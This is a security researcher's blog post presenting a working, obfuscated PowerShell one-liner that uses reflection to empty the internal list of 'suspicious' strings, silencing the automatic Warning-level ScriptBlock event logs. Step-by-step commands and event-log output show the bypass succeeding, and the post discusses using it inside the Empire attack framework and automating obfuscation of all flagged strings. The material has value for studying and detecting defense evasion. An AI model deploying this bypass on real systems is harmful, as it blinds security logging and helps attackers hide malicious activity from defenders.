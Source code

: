 ```yaml
---
layout: post
title: "Bypass for PowerShell ScriptBlock Warning Logging of Suspicious Commands"
date: 2017-5-02 00:00:01 -0600
tags: PowerShell
---
```


## tl;dr

PowerShell 5.0+ automatically logs Warning level ScriptBlock EventLogs when executing "suspicious" commands commonly associated with malware, *even if ScriptBlock logging is not enabled*. This is a one-line bypass of that logging capability: (*note: there are limitations, please see the end of this post for more details*)

```
PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

## Details

This bypass may look familiar to you. It was inspired by Matt Graeber's tweetable, one-line AMSI bypass:

{% twitter https://twitter.com/mattifestation/status/735261176745988096 %}

I figured his method of using reflection to interact with the AmsiUtils class and alter nonpublic, static fields could probably be applied in other nefarious ways. I've been down in a rabbithole of PowerShell obfuscation and ScriptBlock logging lately, and just recently discovered that PowerShell 5.0+ automatically logs "suspicious" commands commonly associated with malware to ScriptBlock logs with a **warning level** (even if ScriptBlock logging is not enabled!). This is a great source of evidence for defenders, so naturally I wanted to try to break it!

Digging through the open-source PowerShell 6.0 GitHub page, what I found is that PowerShell defines a list of strings that are considered "suspicious" and does some string matching to see if a given ScriptBlock contains any of them.

![Suspicious Strings]({{site.baseurl}}/assets/images/suspicious-strings.png)

[Check out the code yourself!](https://github.com/PowerShell/PowerShell/blob/v6.0.0-alpha.18/src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs#L1612-L1660)

Let's see if we can find a similar field in PowerShell 5! Using reflection, let's get a list of the nonpublic, static fields defined in the ScriptBlock class:
```
PS> [ScriptBlock].GetFields('NonPublic,Static')


Name                    : signatures
MetadataToken           : 67114066
FieldHandle             : System.RuntimeFieldHandle
Attributes              : Private, Static
FieldType               : System.Collections.Generic.HashSet`1[System.String]
MemberType              : Field
ReflectedType           : System.Management.Automation.ScriptBlock
DeclaringType           : System.Management.Automation.ScriptBlock
Module                  : System.Management.Automation.dll
IsPublic                : False
IsPrivate               : True
IsFamily                : False
IsAssembly              : False
IsFamilyAndAssembly     : False
IsFamilyOrAssembly      : False
IsStatic                : True
IsInitOnly              : False
IsLiteral               : False
IsNotSerialized         : False
IsSpecialName           : False
IsPinvokeImpl           : False
IsSecurityCritical      : True
IsSecuritySafeCritical  : False
IsSecurityTransparent   : False
CustomAttributes        : {}

...
(output truncated for brevity, you will see other fields)
```

This appears to be the field we are after. You'll notice the `Attribute` property is `Private, Static`. What we learned from Matt's AMSI bypass is that we can alter these private *static* fields using reflection! First, let's test if we can just grab that `signatures` value and see what's inside:

```
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null) | Select -First 10
Add-Type
DllImport
DefineDynamicAssembly
DefineDynamicModule
DefineType
DefineConstructor
CreateType
DefineLiteral
DefineEnum
DefineField
```

Great, we have confirmed that we are able to successfully grab the `signatures` field and we can see all the "suspicious" strings PowerShell is looking for. Now we just need to alter this value to a value we would prefer. How about an empty set?

```
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null)
PS> 
```

It worked! Just one small problem...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 0
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> [ScriptBlock].GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

```

**:(**

You may have noticed in that original list of signatures both `GetField` and `NonPublic` are flagged as suspicious. This is getting logged to a ScriptBlock warning level log **before** our bypass takes effect. If only I knew a tool that makes string matching PowerShell code difficult...

I actually ended up obfuscating this by hand, but I took obfuscation principles learned from [Invoke-Obfuscation](https;//github.com/danielbohannon/Invoke-Obfuscation) and put them to work on these two signatures to get the final result.

```
PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

And for completeness...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 0
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> "NonPublic"
NonPublic
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> "NonPublic"
NonPublic
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :
```

And the final character count is 126 characters, so it is tweetable :)

## One Last Problem To Solve

So this all works great when using it at an interactive PowerShell prompt, the problem comes when trying to script it. My first thought was to throw this into Empire to test how effective it was. There are 2 main problems: One, if the one-liner bypass gets bundled with other code by PowerShell into a larger ScriptBlock, that code following the bypass could be found to be "suspicious" prior to the bypass taking effect. This is because the code is checked for suspicious strings prior to execution of the *entire* ScriptBlock *including the bypass*. Two, Empire uses `Start-Job` commands to execute modules. When `Start-Job` commands are run, a new PowerShell session is created and that session has a re-initialized `signatures` variable that will catch strings in the given module. A way to combat this would be to prepend all `Start-Job` commands with the bypass, but then again we run into problem #1 with code getting bundled with the bypass into a single ScriptBlock and still being scanned prior to execution of the bypass.

Given the flexibility of PowerShell in general, and my relatively little experience with the language, I'm sure there must be some solution to this problem. So this will serve as a **call for help to all you PowerShell wizards out there! :)**

## More Ideas

After using obfuscation to avoid Warning level logs for `GetField` and `NonPublic`, I realized this concept could probably be applied to *all* of the suspicious strings PowerShell is looking for. I think it would be fun to script this, and we could avoid Warning level logs even if this bypass is ever fixed (considering Matt's AMSI bypass still works a year later, this is doubtful to come soon) or no solution is found to the last problem I am facing in scripting the bypass. I will try to write to automate obfuscation for this, and post it when complete.

Also, it seems likely that using reflection to alter nonpublic fields has the potential for more abuse!